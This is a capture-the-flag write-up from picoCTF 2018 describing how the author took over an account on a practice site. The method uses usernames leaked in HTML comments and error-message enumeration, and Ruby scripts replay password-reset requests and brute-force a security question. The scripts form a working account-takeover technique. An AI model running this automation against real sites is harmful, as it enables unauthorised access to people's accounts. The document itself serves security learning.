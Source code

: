 ## Challenge

In this challenge, we were given a link to a website and were told that we needed to login to any user to get the flag.

## Discovery

The website was fairly simple. It had a homepage ('/'), a login page ('/login'), and a reset password page ('/reset').
Both the login page and the password reset pages had forms that sent post requests to '/login' and '/reset'.

I started with the login page, attempting sql injection on the username input. However, I quickly realized that I would need
to look elsewhere. I _did_ notice that when I tried a username and password, I got an error message: "Incorrect username or
password"

Next I tried the reset page. The form on this page had only one input: username. When I typed a username into the input, I
got a different error: "User does not exist". Interesting. I tried sql injection here, plus common usernames like admin and
administrator, but was not able to get past the form.

Back on the homepage, I noticed a comment in the HTML that changed on each refresh.

```
<!--Proudly maintained by smalley-->
```

The username was different everytime. I returned to the reset page and tried `smalley`. It worked! Now I could see the
password reset questions. In playing with this process, I realized that the user saw one of a handful of questions each
time they tried to reset a password: What is your favorite color? What is your favorite carmake? Who is your favorite
superhero?

Color seemed to be the easiest to guess. On my first try, I guessed correctly. However, superhero and carmake were a bit
more varied and in my mind, harder to guess. 

Once I got the first question right, I was presented with another random question, which could be the same question I
already answered.

If I answered wrong too many times, the account would lock and I would need to start again with a new username.


## Solution

In an ideal world, I would answer three "What is your favorite color" questions in a row to reset the password. To
do this, I needed to replay the request multiple times, stopping when I got the color question. I started to automate my 
process by sending a GET request to the homepage and grabbing the username from the html response.

```
#### PART 1 GET A NAME

res = HTTParty.get("<url>/")
name = res.match("<!--Proudly maintained by (.*)-->")[1]
```

Next, I sent a POST request to /reset as many times as it took to see the "What is your favorite color?" page.

```
#### Part 2 GET A COOKIE

payload = {
  :username => name
}

options = {
  :body => payload,
  :follow_redirects => true
}

res = nil
until res&.include?("What is you favorite color?")
  res = HTTParty.post("<url>/reset", options)
end

cookie = res.headers['set-cookie'].split(';')[0]
```

I saved the cookie from this page to send along with my next requests to brute force the color.

```
headers = {
  'Cookie' => cookie
}
```

```
#### Part 3 GIVE EM THE COLORS

colors.each do |color|
  payload = {
    :answer => color
  }

  options = {
    :body => payload,
    :headers => headers
  }

  results = HTTParty.post("<url>/reset_q", options)

  if !results.include?('Incorrect answer!')
    cookie = results.headers['set-cookie'].split(';')[0]
    headers = {
      'Cookie' => cookie
    }
    options = {
    	:body => payload,
      :headers => headers
    }
    break
  end
end
```

Once I found the correct color, I saved the cookie from the request to be used in my next replayed POST. I made a loop
to replay the request until I got another color question. I answered with the correct color until I got a page with a link to
change my password.

```
#### Part 4 REPLAY REQUEST

until results.include?('/newpass')
  results = HTTParty.post("<url>/reset_q", options)
  if results.include?('color?') || results.include?('/newpass')
    cookie = results.headers['set-cookie'].split(';')[0]
    headers = {
      'Cookie' => cookie
    }
    options = {
      :body => payload,
      :headers => headers
    }
  end
end
```
Once I reset the password and logged in as the user, I got the flag!

___

Pico CTF 2018 - October 2018
